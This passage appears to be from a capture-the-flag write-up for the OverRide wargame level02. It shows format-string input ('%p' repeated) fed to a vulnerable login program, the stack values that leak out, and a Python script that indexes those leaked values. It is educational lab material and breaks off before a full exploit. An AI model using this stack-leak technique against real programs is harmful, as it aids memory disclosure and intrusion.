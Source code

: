 ```
level02@OverRide:~$ python -c "print '%p %p %p %p %p %p %p' '\n' + 'A\n'" > /tmp/level2
level02@OverRide:~$ ./level02 < /tmp/level2
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 does not have access!
level02@OverRide:~$
```
From the surface here, we see some addresses and their contents. Hence, I made a script to automate the parsing of the stack for a number of times.

```
cat << EOF > /tmp/parse.py
# parse.py
import sys

# read input
input_string = sys.stdin.read()

# split string based on newline
lines = input_string.split('\n')

# get the last string
last_line = lines[len(lines) - 2]

# split by spaces
tokens = last_line.split(' ')
index = 0
for token in tokens:
    index += 1
    if token == "does" :
        break
    print(str(index) + ' - ' + token)
EOF
```

And the script is done, now to run it with our input and we get the results below.

```
level02@OverRide:~$ python -c "print '%p ' * 30 + '\n' + 'BBBBBBBB'" > /tmp/level2
level02@OverRide:~$ ./level02 < /tmp/level2 | python /tmp/parse.py
1 - 0x7fffffffe500
2 - (nil)
3 - 0x42
4 - 0x2a2a2a2a2a2a2a2a
5 - 0x2a2a2a2a2a2a2a2a
6 - 0x7fffffffe6f8
7 - 0x1f7ff9a08
8 - 0x4242424242424242
9 - (nil)
10 - (nil)
11 - (nil)
12 - (nil)
13 - (nil)
14 - (nil)
15 - (nil)
16 - (nil)
17 - (nil)
18 - (nil)
19 - (nil)
20 - 0x100000000
21 - (nil)
```